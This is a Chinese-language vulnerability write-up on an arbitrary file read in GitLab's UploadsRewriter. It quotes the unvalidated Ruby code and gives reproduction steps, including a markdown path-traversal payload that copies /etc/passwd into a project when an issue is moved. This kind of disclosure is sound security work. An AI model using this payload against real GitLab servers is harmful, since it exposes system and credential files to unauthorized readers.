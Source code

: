 Gitlab 任意文件读取漏洞
=======================

一、漏洞简介
------------

在`UploadsRewriter`不验证文件名，允许任意文件，以通过目录遍历移动的问题，以新项目时被复制。

用于查找参考的模式是：

      MARKDOWN_PATTERN = %r{\!?\[.*?\]\(/uploads/(?<secret>[0-9a-f]{32})/(?<file>.*?)\)}.freeze

这是使用的`UploadsRewriter`复制问题也跨文件复制时：

       @text.gsub(@pattern) do |markdown|
              file = find_file(@source_project, $~[:secret], $~[:file])
              break markdown unless file.try(:exists?)

              klass = target_parent.is_a?(Namespace) ? NamespaceFileUploader : FileUploader
              moved = klass.copy_to(file, target_parent)
    ...
       def find_file(project, secret, file)
            uploader = FileUploader.new(project, secret: secret)
            uploader.retrieve_from_store!(file)
            uploader
          end

由于没有限制`file`，因此可以使用路径遍历来复制任何文件。

二、漏洞影响
------------

三、复现过程
------------

1.  创建两个项目    1.png

2.  添加具有以下描述的问题：

```{=html}
<!-- -->
```
    ![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

1.  将问题移至第二个项目    2.png

2.  该文件将被复制到项目中    3.png    4.png
